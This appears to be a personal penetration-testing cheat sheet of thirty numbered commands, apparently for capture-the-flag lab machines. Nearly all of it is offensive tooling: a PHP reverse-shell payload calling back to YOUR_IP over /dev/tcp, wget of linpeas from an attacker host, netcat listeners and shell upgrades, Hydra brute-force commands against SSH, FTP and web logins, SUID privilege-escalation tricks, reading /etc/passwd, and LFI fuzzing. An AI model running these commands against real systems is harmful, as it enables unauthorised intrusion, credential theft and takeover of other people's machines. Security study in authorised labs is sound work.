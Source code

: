 1. wget http://192.168.2.4/linpeas.sh - Downloading linpeas on the target machine
2. python3 -m http.server 80 - Setting up a server
3. nc -lvnp 4444 - Set netcat listener
4. python -c 'import pty; pty.spawn("/bin/sh")' - upgrading shell
5. find / -perm /4000 -type f 2>/tmp/2 - checking SUID
6. sudo netdiscover -i eth0 - Checking Devices on the network
7. nc -nvlp 1234 - Set netcat listener
8. https://gtfobins.github.io/ -- For privilage escalation
9. python3 -c 'import pty;pty.spawn("/bin/bash")' -- upgrading shell
10. sudo -l -- Check User Permissions
11. hydra -L <userlist> -P <passwordlist> ssh://<ipaddress> (can add T4 to make it faster and -f to stop
    the scan after the password is found.
12. sudo -l
13. sudo su
14. ls -la
15. hydra -L <wordlist> -P /usr/share/wordlists/amass/all.txt -e nsr ftp://<ftp>
16. hydra -l <username> -P /path/to/wordlist.txt <target> http-post-form "/textpattern/textpattern:username=^USER^&password=^PASS^:F=Login failed" -V -f
17. zip2john file.zip
18. <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1'");
    ?>
19.find / -perm -u=s -type f 2>/dev/null
20. gobuster dir -u http://192.168.2.15 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x .php -t 20 -o gobuster_scan.txt
21. hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.100 ssh
22. nmap -p 80 192.168.0.181 --script http-put --script-args http-put.url='test/shell.php',http-put.file='shell.php' = for uploading a document.
23. curl -v -X OPTIONS HTTP://192.168.2.23 == for checking permissions on a webpage
24. cat /etc/passwd
25. uname -r
26. scp -P 22222 Summer@192.168.2.33:/home/Morty/journal.txt.zip /tmp == downloading a file via ssh
27. dirb http://192.168.2.35 Drupal.txt
28. find . -exec /bin/sh \; -quit == if find is SUID this can be used to escalate
29. smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t 192.168.2.25 - smtp user enumeration
30. ffuf -u 'http://blackwidow/company/started.php?file=FUZZ' -w /home/kali/Downloads/LFI-LFISuite-pathtotest-huge.txt -c -ic -r -fs 0 == for bruteforcing LFI's in a url
